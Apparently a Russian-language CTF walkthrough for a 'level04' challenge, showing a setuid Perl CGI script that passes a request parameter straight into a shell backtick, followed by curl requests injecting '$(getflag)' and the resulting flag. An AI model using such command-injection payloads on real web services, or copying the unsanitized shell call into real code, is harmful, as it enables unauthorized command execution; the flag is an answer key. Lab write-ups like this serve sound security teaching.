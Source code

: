 	ls -la

	-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
	
Итак, у нас есть какой то скрипт на Перле. У него есть права на запуск с повышением привелегий до пользователя, создавшего файл

	vim level04.pl
	
	#!/usr/bin/perl
	# localhost:4747
	use CGI qw{param};
	print "Content-type: text/html\n\n";
	sub x {
		$y = $_[0];
		print `echo $y 2>&1`;
	}
x(param("x"));

Итак, там юзается CGI (https://ru.wikipedia.org/wiki/CGI), а именно qw{param},  получается что мы сверяем занчение, которое подаем с param = "x"
	
Посмотрим, запущен ли у нас какой нибудь веб-сервер

	service --status-all
	[ + ]  apache2

Значит будем пробовать посылать запросы на сервер через curl (http://www.4stud.info/web-programming/cgi.html)(https://ru.hexlet.io/courses/php-mvc/lessons/php-cgi/theory_unit)

	curl localhost:4747/?x='$PATH'

Печатает PATH, работает!

	curl localhost:4747/?x='$(getflag)'

Получаем заветный флаг:

	ne2searoevaevoem4ov4ar8ap

